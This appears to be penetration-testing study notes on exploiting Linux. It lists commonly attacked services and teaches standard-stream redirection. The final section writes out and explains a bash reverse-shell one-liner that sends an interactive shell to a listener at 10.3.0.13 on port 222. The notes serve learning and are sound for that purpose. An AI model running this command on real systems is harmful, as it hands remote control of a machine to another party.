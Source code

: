 # Exploiting Linux

## Contents
- [Overview](#overview)
- [Frequently Exploited Services](#frequently-exploited-services)

## Overview 

- Linux is a free and open-source operating system that is comprised of the Linux kernel, which was developed by Linus Torvalds, and the GNU toolkit, which is a collection of software and utilities that was started and developed by Richard Stallman.
- This combination of open-source software is what makes up the Linux O/S as a whole, and it is commonly referred to as GNU/Linux.
- Linux has various use cases. However, it is typically deployed as a server operating system. For this reason, there are specific services and protocols that will typically be found running on a Linux server.
- These services provide an attacker with an access vector that he can utilize to gain access to a target host.
- Having a good understanding of what these services are, how they work, and their potential vulnerabilities is a vitally important skill to have a penetration tester.

## Frequently Exploited Services 

|  Protocol/Service  |  Ports  |  Purpose  |
| :---------------:  |  :---:  |  -------  |
| Apache Web Server | TCP Ports 80 & 443 | Free and open-source cross-platform web server released under the Apache License 2.0. Apache accounts for over 80% of web servers globablly |
| SSH | TCP Port 22 | SSH (Secure Shell) is a cryptographic remote access protocol that is used to remotely access and control systems over an unsecured network. SSH was developed as a secure successor to telnet |
| FTP | TCP Port 21 | FTP (File Transfer Protocol) is a protocol that facilitates file sharing between a server and a client, and vice versa | 
| Samba | TCP Port 445 | Samba is the Linxu implementation of the SMB protocol, and it allows Windows systems to access Linux shares and devices |

## Linux Standard Streams

- **_Linux Streams_:** There are three standard "streams" of data in Linux and they are referred to with the following values:
  - `0: stdin`&nbsp;&nbsp;&nbsp;(from keyboard)
  - `1: stdout`&nbsp;&nbsp;(default: to display)
  - `2: stderr`&nbsp;&nbsp;(default: to display)
 
- To explicitly redirect `stdout`, use this redirection instruction: `1>`
  -  `>` is shorthand for `1>`
  -  Example: This redirects stdout into a text file instead of to the default (display)
```
 echo "This is content." > text_file.txt
```

- To explicitly redirect `stderr`, use this redirection instruction: `2>`
  - Example: This will redirect stderr to a file called capture.txt.
```
./error.sh 2> capture.txt
```
  - Example: This redirects stdout to capture.txt and stderr to error.txt
```
./error.sh 1> capture.txt 2> error.txt
```

- Redirecting to the Same File:
```
./error.sh > capture.txt 2>&1
```
  - `./error.sh` : Launches the error.sh script file.
  - `> capture.txt` : Redirects the stdout (1) stream to the capture.txt file. REMEMBER: > is shorthand for 1>.
  - `2>&1` : This uses the >& redirect instruction.
    - This instruction allows you to tell the shell to make one stream go to the same destination as another stream.
    - In this case, we're saying "redirect stream 2, stderr, to the same destination that stream 1, stdout, is being redirected to" (i.e., into the capture.txt file)
   
- Analysis of Syntax:
```
bash -i &> /dev/tcp/10.3.0.13/222 0>&1
```
  - `bash -i` : opens an interactive shell (a session that begins with your login and ends when you type 'exit' to logout).
  - `&>` : redirects the standard output and error to the socket opened to the IP 10.3.0.13 which would be listening on port 222
  - `0>&1` : stdin is attached to stdout (and from &> we know that the stdin for this bash process is from 10.3.0.13:222.
